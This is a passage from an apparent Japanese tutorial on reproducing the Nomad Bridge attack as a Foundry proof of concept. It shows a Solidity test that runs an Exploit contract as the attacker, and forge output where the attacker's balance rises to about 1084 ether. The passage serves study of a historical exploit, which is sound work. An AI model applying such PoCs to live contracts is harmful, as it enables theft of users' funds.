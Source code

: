 ```solidity

    receive() external payable {}
}
```

実際の攻撃では、`Exploit Impl Contract`を使っていたり、少額のEtherを送金していたりしていますが、前回の調査結果からわかるように、それらは必要ないので無くしています。

### テストの実行

攻撃が実装できたので、`exploiter`のアドレスの残高が攻撃前と攻撃後でどのように変化したか見てみます。

`log_named_decimal_uint`イベントをemitすれば良いです。

```solidity
    function testExploit() public {
        emit log_named_decimal_uint("balance", exploiter.balance, 18);

        vm.startPrank(exploiter, exploiter);
        new Exploit().exploit();
        vm.stopPrank();

        emit log_named_decimal_uint("balance", exploiter.balance, 18);
    }
```

第3引数にdecimalsであり、`18`を指定するとweiをetherにして変換してくれます。
これは1 ether = 10^18 weiであるためです。

テストを実行すると、結果は以下のようになります。

```
$ forge test --mc NomadBridgeExploitTest -vvv
[⠔] Compiling...
[⠒] Compiling 1 files with 0.8.21
[⠒] Solc 0.8.21 finished in 1.53s
Compiler run successful!

Running 1 test for course/reproducing-attack/poc/NomadBridgeExploitSimple.t.sol:NomadBridgeExploitTest
[PASS] testExploit() (gas: 466192)
Logs:
  balance: 0.000000000000000000
  balance: 1084.116533510535209745

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.03s
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

攻撃者が1084 etherを不正に獲得したことがわかります。

以上でトレーシング結果を直接利用するシンプルなPoCを作成できました。

## 高度なPoCの作成例

### 写経から高度なPoCへ
